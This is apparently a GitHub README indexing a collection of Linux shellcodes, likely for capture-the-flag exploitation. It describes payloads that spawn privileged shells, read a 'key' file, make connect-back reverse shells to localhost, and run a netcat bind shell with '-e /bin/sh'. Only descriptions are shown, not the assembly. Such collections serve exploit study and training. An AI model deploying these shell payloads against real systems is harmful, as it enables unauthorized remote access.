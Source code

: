 shellcodes-linux
================

Collection of Linux shellcodes


**bash.asm**
execve("/bin/bash", ["/bin/bash", "-p"], NULL);

**sh.asm**
execve("/bin/sh", ["/bin/sh"], NULL);

**cat.asm**
execve("/bin/cat", ["/bin/cat", "key"], NULL);

**cat_syscall.asm**
cat "key", with read()/write() syscalls

**connectback.asm**
connect back to 127.0.0.1:4096 + execve "/bin/sh"

**connectback_ipv6.asm**
connect back to [::1]:4096 + execve "/bin/sh"

**hello.asm**
write(1, "Hello!!!\n" 9);

**ls_syscall.asm**
list "." directory with getdents() syscall

**nc.asm**
execve("/bin/nc", "/bin/nc", "-p", "4096", "-vve", "/bin/sh");

**mprotect_read**
mprotect the stack, read on it, and jump to it